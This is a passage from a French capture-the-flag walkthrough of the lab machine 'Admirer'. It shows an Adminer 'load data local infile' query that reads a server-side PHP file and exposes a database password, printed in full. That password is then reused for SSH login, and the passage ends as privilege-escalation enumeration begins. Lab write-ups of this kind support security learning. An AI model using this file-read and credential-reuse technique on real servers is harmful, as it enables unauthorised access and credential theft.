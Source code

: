 Query OK, 0 rows affected (0.293 sec)

MariaDB [test]> 
~~~

Dans Adminer, cliquer sur 'SQL Command' et executer la commande suivante:

~~~
load data local infile '../index.php'
into table test
fields terminated by '\n'
~~~

Dans select, on retrouve le contenu de index.php et on remarque que le mdp mysql n'est pas le même que celui qu'on a trouvé via ftp

~~~
$password = "&<h5b~yK3F#{PaPB&dA}{H>"; 
~~~

On se log a ssh avec ce mdp

~~~
root@Host-001:~/Bureau/htb/Admirer# ssh waldo@10.10.10.187
waldo@10.10.10.187's password: 
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Thu May 21 15:51:25 2020 from 10.10.14.137
waldo@admirer:~$ pwd
/home/waldo
You have new mail in /var/mail/waldo
waldo@admirer:~$ ls
experiment  user.txt
waldo@admirer:~$ cat user.txt 
aef3c0551337d3b44a63d0fcf902807d
waldo@admirer:~$
~~~

# 2 - Root

~~~
waldo@admirer:~$ sudo -l
[sudo] password for waldo: 
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    listpw=always
